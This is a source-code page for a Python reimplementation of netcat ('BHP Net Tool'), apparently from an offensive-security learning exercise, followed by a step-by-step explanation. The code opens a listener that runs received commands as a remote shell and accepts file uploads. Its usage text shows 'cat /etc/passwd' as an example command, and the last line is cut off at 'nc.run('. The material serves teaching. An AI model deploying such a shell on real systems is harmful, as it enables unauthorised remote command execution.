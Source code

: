 # Replacing Netcat

## Code

### `netcat.py`

```python
# Copyright (C) 2023 Saman Pordanesh
# Permission is hereby granted, free of charge, to any person obtaining a copy
# of this software and associated documentation files...

import argparse
import socket
import shlex
import subprocess
import sys
import textwrap
import threading

class NetCat:
    def __init__(self, args, buffer=None): # initialize the NetCat object with the arguments from the commandline and the buffer
        self.args = args
        self.buffer = buffer
        self.socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM) # create the socket object
        self.socket.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)

    def run(self): # run the command line
        #If we’re setting up a listener, we call the listen method. Otherwise, we call the send method
        if self.args.listen:
            self.listen()
        else:
            self.send()

    # program run as a sender   
    def send(self): 
        self.socket.connect((self.args.target, self.args.port)) # connect to the target and port
        if self.buffer: #if we have a buffer, we send that to the target first
            self.socket.send(self.buffer)
        try: # try/catch -> CTRL-C manual closing 
            while True: # loop to receive data from the target.
                recv_len = 1
                response = ''
                while recv_len:
                    data = self.socket.recv(4096)
                    recv_len = len(data)
                    response += data.decode()
                    if recv_len < 4096: # if no more data, we break out of the loop
                        break 
                if response: # print the response data
                    print(response)
                    buffer = input('> ')
                    buffer += '\n'
                    self.socket.send(buffer.encode()) # get interactive input, send that input
        except KeyboardInterrupt:
            print('User terminated.')
            self.socket.close()
            sys.exit()

    # program run as a listener
    def listen(self):
        self.socket.bind((self.args.target, self.args.port)) # listen method binds to the target and port
        self.socket.listen(5)
        while True: # starts listening in a loop
            client_socket, _ = self.socket.accept()
            client_thread = threading.Thread( # passing the connected socket to the handle method
                target=self.handle, args=(client_socket,)
            )
            client_thread.start()

    # logic to perform file uploads, execute commands, and create an interactive shell.        
    def handle(self, client_socket):
        if self.args.execute: # If a command should be executed
            output = execute(self.args.execute) # passes that Basic Networking Tools command to the execute function
            client_socket.send(output.encode()) # sends the output back on the socket

        elif self.args.upload: # If a file should be uploaded
            file_buffer = b''
            while True: # set up a loop to listen for content on the listening socket
                # receive data until there’s no more data
                data = client_socket.recv(4096)
                if data:
                    file_buffer += data
                else:
                    break
            # write that accumulated content to the specified file.
            with open(self.args.upload, 'wb') as f:
                f.write(file_buffer)
            message = f'Saved file {self.args.upload}'
            client_socket.send(message.encode())

        elif self.args.command: # if the shell is to be created
            cmd_buffer = b''
            while True: # loop, send a prompt to the sender, and wait for a command string to come back
                try:
                    client_socket.send(b'BHP: #> ')
                    while '\n' not in cmd_buffer.decode():
                        cmd_buffer += client_socket.recv(64)
                    response = execute(cmd_buffer.decode()) # execute the command by using the execute function
                    if response:
                        client_socket.send(response.encode()) # return the output of the command to the sender
                    cmd_buffer = b''
                except Exception as e:
                    print(f'server killed {e}')
                    self.socket.close()
                    sys.exit()

def execute(cmd):
    cmd = cmd.strip()
    if not cmd:
        return 
    output = subprocess.check_output(shlex.split(cmd),stderr=subprocess.STDOUT) #1
    return output.decode()

if __name__ == '__main__':
        
    parser = argparse.ArgumentParser( #create a commandline interface from 'argparse' module
    description='BHP Net Tool',
    formatter_class=argparse.RawDescriptionHelpFormatter,
    epilog=textwrap.dedent('''Example:  
        netcat.py -t 192.168.1.108 -p 5555 -l -c # command shell 
        netcat.py -t 192.168.1.108 -p 5555 -l -u=mytest.txt # upload to file
        netcat.py -t 192.168.1.108 -p 5555 -l -e="cat /etc/passwd" # execute command
        echo 'ABC' | ./netcat.py -t 192.168.1.108 -p 135 # echo text to server port 135
        netcat.py -t 192.168.1.108 -p 5555 # connect to server
    ''')) #provide example usage when --help
        
    # six arguments for indicating how the program to behave
    parser.add_argument('-c', '--command', action='store_true', help='command shell') # sets up an interactive shell
    parser.add_argument('-e', '--execute', help='execute specified command') # executes one specific command
    parser.add_argument('-l', '--listen', action='store_true', help='listen') # indicates that a listener should be set up,
    parser.add_argument('-p', '--port', type=int, default=5555, help='specified port') # specifies the port on which to communicate
    parser.add_argument('-t', '--target', default='192.168.1.203', help='specified IP') # specifies the target IP
    parser.add_argument('-u', '--upload', help='upload file') # specifies the name of a file to upload.
    args = parser.parse_args()
    if args.listen:
        buffer = ''
    else:
        buffer = sys.stdin.read()
        
    nc = NetCat(args, buffer.encode()) # initialize the NetCat
    nc.run(
```

## Explanation

The provided code is an implementation of a simple NetCat tool using Python. NetCat is a versatile networking tool that allows you to read from and write to network connections. It can be used for various purposes such as debugging, port scanning, transferring files, and creating reverse shells.

Here's an explanation of the code:

1. The code begins by importing the required modules (**`argparse`**, **`socket`**, **`shlex`**, **`subprocess`**, **`sys`**, **`textwrap`**, and **`threading`**).
2. The **`NetCat`** class is defined, which serves as the main component of the NetCat tool. It has methods for sending and receiving data over a network connection.
3. The **`__init__`** method initializes the **`NetCat`** object. It takes **`args`** (parsed command-line arguments) and **`buffer`** (input data) as parameters. It sets up a socket object, configures it, and stores the arguments and buffer.
4. The **`run`** method is responsible for determining whether to listen or send data based on the command-line arguments. If the **`listen`** flag is provided, it calls the **`listen`** method; otherwise, it calls the **`send`** method.
5. The **`send`** method establishes a connection with the target specified in the command-line arguments. It sends the buffer (if provided) and enters a loop to receive data from the target. It prints the received data and prompts for user input to send back to the target.
6. The **`listen`** method binds the socket to the specified IP address and port, starts listening for incoming connections, and spawns a new thread for each client connection. The **`handle`** method is called in each new thread to handle the client connection.
7. The **`handle`** method receives a client socket and checks the command-line arguments to determine the action to perform. If the **`execute`** flag is provided, it executes the specified command and sends the output back to the client. If the **`upload`** flag is provided, it receives the file data from the client and saves it locally. If the **`command`** flag is provided, it sets up an interactive shell by continuously receiving commands from the client, executing them, and sending back the output.
8. The **`execute`** function is a helper function used to execute shell commands. It takes a command as input, strips any leading/trailing whitespace, and executes the command using the **`subprocess.check_output`** function. The output is returned as a string.
9. The **`if __name__ == '__main__':`** block is the entry point of the script. It sets up the command-line argument parser (**`argparse.ArgumentParser`**) and defines the available arguments (**`c`**, **`e`**, **`l`**, **`p`**, **`t`**, **`u`**). It also parses the provided arguments and determines whether to read from standard input or use a provided buffer based on the **`listen`** flag. Finally, it creates an instance of the **`NetCat`** class (**`nc`**) and calls its **`run`** method to start the NetCat tool.

Overall, this code allows you to use the NetCat tool to listen for incoming connections, send data to a specified target, execute commands, upload files, and interact with a command shell.

